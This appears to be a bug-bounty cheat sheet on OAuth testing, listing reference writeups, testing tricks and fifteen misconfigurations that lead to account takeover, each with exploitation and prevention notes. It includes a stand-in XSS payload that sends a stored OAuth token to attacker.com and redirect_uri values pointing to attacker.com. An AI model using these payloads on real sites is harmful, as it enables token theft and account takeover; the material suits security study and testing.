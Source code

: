 ```yaml
---

### **OAuth Testing Scenarios**

#### **General Research**
- Check Medium for articles and writeups.
- Check GitHub for tools and repositories.
- Check Telegram for tips and discussions.
- Check X (Twitter) for tips and updates.
- Search on Google for new techniques and vulnerabilities.

#### **Writeups & References**
- DOM XSS to Account Takeover Writeup: https://thefrogsec.github.io/2024/04/06/How-we-escalated-a-DOM-XSS-to-a-sophisticated-1-click-Account-Takeover-for-8000-Part-1/
- OAuth Vulnerabilities by Payatu: https://payatu.com/blog/oauth-vulnerabilities/#1_Stealing_OAuth_Token_via_redirect_uri
- OAuth 2.0 Vulnerabilities Cheat Sheet: https://0xn3va.gitbook.io/cheat-sheets/web-application/oauth-2.0-vulnerabilities
- RFC 6749 - OAuth 2.0 Specification: https://www.rfc-editor.org/rfc/rfc6749#section-4.1.2
- OAuth 2.0 Official Documentation: https://oauth.net/2/
- Salmonsec Cheatsheet: https://salmonsec.com/cheatsheethome
- Breaking the Chain: Exploiting OAuth and Forgot Password for Account Takeover: https://www.bugcrowd.com/blog/breaking-the-chain-exploiting-oauth-and-forgot-password-for-account-takeover/
- Authentication Bypass Notion Page: https://boom-stinger-c76.notion.site/Authentication-Bypass-17853b6a0d6e80f8aea8d59e9e5dc874
- RFC 6749 - OAuth 2.0 Full Specification: https://datatracker.ietf.org/doc/html/rfc6749
- RFC 6749 - Section 1.3.2: https://datatracker.ietf.org/doc/html/rfc6749#section-1.3.2
- Authentication Bypass on Airbnb via OAuth Tokens Theft: https://www.arneswinnen.net/2017/06/authentication-bypass-on-airbnb-via-oauth-tokens-theft/
- OAuth Misconfigurations to ATO: https://sallam.gitbook.io/sec-88/web-appsec/oauth-misconfigurations/oauth-to-ato

#### **OAuth Testing Techniques**
- Brute Force to get legacy or unimplemented OAuth flows:
  - List of OAuth Providers: https://en.wikipedia.org/wiki/List_of_OAuth_providers
- Modify the `hd=` parameter:
  - Intigriti Tweet: https://x.com/intigriti/status/1383397368691789825
- Remove `email` from the scope.
- Use the Access Token of your app instead of the Auth Token of the victim app:
  - Account Takeover via Facebook Login Misconfiguration: https://ankitthku.medium.com/account-takeover-via-common-misconfiguration-in-facebook-login-a2ac8b479b3
  - HackerOne Report 1: https://hackerone.com/reports/101977
  - HackerOne Report 2: https://hackerone.com/reports/314808

---
```

---

### **OAuth Misconfigurations Leading to ATO**

---

#### **1. Improper Redirect URI Validation**
- **Issue**: The application does not properly validate the `redirect_uri` parameter.  
- **Exploitation**:  
  - Use a malicious `redirect_uri` to steal authorization codes or tokens.  
  - Example:  
    ```plaintext
    redirect_uri=https://attacker.com
    ```
- **Prevention**:  
  - Strictly validate the `redirect_uri` against a whitelist of allowed URIs.  

---

#### **2. Leakage of Authorization Codes**
- **Issue**: Authorization codes are exposed in URLs, logs, or browser history.  
- **Exploitation**:  
  - Intercept authorization codes from insecure channels.  
  - Example: Codes leaked in the `Referer` header or browser history.  
- **Prevention**:  
  - Use PKCE (Proof Key for Code Exchange) to secure authorization codes.  

---

#### **3. Token Leakage via Referer Header**
- **Issue**: Tokens are leaked in the `Referer` header when navigating to third-party sites.  
- **Exploitation**:  
  - Capture tokens from the `Referer` header.  
  - Example:  
    ```plaintext
    Referer: https://victim.com/?token=abc123
    ```
- **Prevention**:  
  - Use `Referrer-Policy: no-referrer` or `Referrer-Policy: strict-origin-when-cross-origin`.  

---

#### **4. Weak Token Validation**
- **Issue**: The application does not properly validate OAuth tokens.  
- **Exploitation**:  
  - Use expired or tampered tokens to gain unauthorized access.  
  - Example: Reuse tokens after they have expired.  
- **Prevention**:  
  - Validate tokens using the OAuth provider’s introspection endpoint.  

---

#### **5. Insecure Storage of Tokens**
- **Issue**: Tokens are stored in insecure locations (e.g., local storage, cookies without `HttpOnly` and `Secure` flags).  
- **Exploitation**:  
  - Steal tokens via XSS or other client-side attacks.  
  - Example:  
    ```javascript
    localStorage.getItem('oauth_token');
    ```
- **Prevention**:  
  - Store tokens securely using `HttpOnly` and `Secure` cookies.  

---

#### **6. Lack of State Parameter**
- **Issue**: The `state` parameter is missing or not validated.  
- **Exploitation**:  
  - Perform CSRF attacks to link the attacker’s account to the victim’s session.  
  - Example:  
    ```plaintext
    https://oauth-provider.com/auth?client_id=123&redirect_uri=https://victim.com&state=attacker_state
    ```
- **Prevention**:  
  - Always include and validate the `state` parameter.  

---

#### **7. Open Redirects in OAuth Flow**
- **Issue**: The application allows open redirects during the OAuth flow.  
- **Exploitation**:  
  - Redirect users to malicious sites after authentication.  
  - Example:  
    ```plaintext
    redirect_uri=https://victim.com?next=https://attacker.com
    ```
- **Prevention**:  
  - Validate and restrict redirect URIs to trusted domains.  

---

#### **8. Token Replay Attacks**
- **Issue**: Tokens can be reused or replayed.  
- **Exploitation**:  
  - Capture and reuse tokens to impersonate users.  
  - Example: Replay tokens from intercepted requests.  
- **Prevention**:  
  - Use short-lived tokens and implement token revocation.  

---

#### **9. Insufficient Scope Validation**
- **Issue**: The application does not properly validate the scope of tokens.  
- **Exploitation**:  
  - Use tokens with excessive permissions to perform unauthorized actions.  
  - Example: Use a token with `read_write` scope to modify data.  
- **Prevention**:  
  - Validate token scopes before granting access to resources.  

---

#### **10. Misconfigured CORS**
- **Issue**: The application allows cross-origin requests to OAuth endpoints.  
- **Exploitation**:  
  - Perform cross-origin attacks to steal tokens or authorization codes.  
  - Example:  
    ```javascript
    fetch('https://oauth-provider.com/token', { credentials: 'include' });
    ```
- **Prevention**:  
  - Configure CORS policies to restrict access to trusted origins.  

---

#### **11. Phishing via OAuth Consent Page**
- **Issue**: The OAuth consent page can be spoofed.  
- **Exploitation**:  
  - Trick users into granting access to malicious applications.  
  - Example: Use a fake consent page to steal credentials.  
- **Prevention**:  
  - Educate users to verify the legitimacy of consent pages.  

---

#### **12. Token Hijacking via XSS**
- **Issue**: Tokens are vulnerable to theft via XSS.  
- **Exploitation**:  
  - Inject malicious scripts to steal tokens.  
  - Example:  
    ```javascript
    document.location='https://attacker.com/?token='+localStorage.getItem('oauth_token');
    ```
- **Prevention**:  
  - Implement strong XSS protections and sanitize user inputs.  

---

#### **13. Lack of Token Binding**
- **Issue**: Tokens are not bound to the client or user session.  
- **Exploitation**:  
  - Use stolen tokens on different devices or sessions.  
  - Example: Replay tokens from one session to another.  
- **Prevention**:  
  - Implement token binding using mechanisms like DPoP (Demonstrating Proof of Possession).  

---

#### **14. Insecure Token Transmission**
- **Issue**: Tokens are transmitted over unencrypted channels (HTTP).  
- **Exploitation**:  
  - Intercept tokens via MITM attacks.  
  - Example: Capture tokens from HTTP requests.  
- **Prevention**:  
  - Always use HTTPS for token transmission.  

---

#### **15. Misconfigured Token Expiry**
- **Issue**: Tokens have excessively long expiry times.  
- **Exploitation**:  
  - Use expired tokens to maintain access.  
  - Example: Reuse tokens long after they should have expired.  
- **Prevention**:  
  - Use short-lived tokens and refresh tokens with limited lifetimes.  

---

